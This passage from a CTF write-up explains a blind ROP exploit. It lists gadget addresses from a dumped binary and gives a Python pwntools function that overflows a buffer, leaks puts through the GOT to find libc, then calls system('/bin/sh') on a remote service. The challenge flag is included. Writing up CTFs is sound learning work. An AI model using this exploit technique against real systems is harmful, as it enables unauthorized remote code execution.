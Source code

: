 ### Selecting additional Gadgets
Just open the binary file with:-
```text
r2 -b 0x400000 ./blind.dump
```
Following are screenshots of blind.dump:- 
[Main function]
![](https://github.com/TomiyokaGiyu/Ctf-pictures/blob/main/Screenshot%20from%202022-02-14%2014-48-58.png?raw=true)
[Plt section]
![](https://github.com/TomiyokaGiyu/Ctf-pictures/blob/main/Screenshot%20from%202022-02-14%2014-50-51.png?raw=true)
So we are using these Gadgets:-
0x4006fb - call puts@plt
0x601018 - Got entry of puts
0x4006b6 - Main function starting

### Get the Shell
```python
def get_shell(buf_size, brop_Gadget, main_puts, got_Addr, main_start_address):
    pop_rdi = brop_Gadget +9
    payload = b'A' * buff_size + p64(pop_rdi) + p64(got_Addr) + p64(main_puts) + p64(main_start_address)
    print(payload)
    try:
        p = remote(HOST, PORT)
        p.recvline()
        #p.sendline()
        p.send(payload)
        data = p.recv()
        #print(data)
        leak = u64(data[:-1].ljust(8, b'\x00'))
        #print(hex(leak))
        libc.address = leak - libc.symbols['puts']
        print("Libc base address: 0x%x" % libc.address)
        binsh = libc.address + 0x18ce57
        payload2 = b'A' * buf_size + p64(pop_rdi) + p64(binsh) + p64(libc.symbols['system'])
        p.send(payload2)
        p.interactive()
    except Exception as e:
        print(e)
```
We are appending Main starting address to our payload so that we can again provide input to overwrite rip with shell address 

Now let's join everything in Final Exploit

### Flag
```text
CTF{313f12378d33889716128e329457030182023d103ab648b072fa1e839713dab5}
```

## Final_Exploit
[Final Exploit](https://github.com/TomiyokaGiyu/Ctf-pictures/blob/main/final_exploit.py)

# Resource
[Standford edu papers on BROP](https://www.scs.stanford.edu/brop/bittau-brop.pdf)
